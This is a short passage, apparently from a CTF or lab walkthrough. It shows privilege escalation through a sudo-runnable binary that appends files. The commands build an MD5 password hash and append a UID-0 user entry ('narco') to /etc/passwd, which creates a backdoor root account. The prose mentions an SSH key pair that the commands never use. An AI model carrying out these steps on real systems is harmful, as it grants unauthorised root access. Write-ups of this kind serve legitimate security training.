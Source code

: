 
Essentially this python file has the ability to read a file and then append the contents of that file to another file.

So what we'll do is generate a new SSH key pair, and add it to a file called user

```bash
openssl passwd -1 -salt narco apass12345
```

This command outputs the following:
```txt
$1$narco$.Tc6tZK6QGD.6mdvtw5If/
```

```bash
echo "narco:$1$narco$.Tc6tZK6QGD.6mdvtw5If/:0:0::/root:/bin/bash" > slab

# Run the test.py file
sudo /opt/devstuff/dist/test/test /tmp/slab /etc/passwd

# Then verify that the user was added
cat /etc/passwd
```



## Stuff to look into
* Port knocking
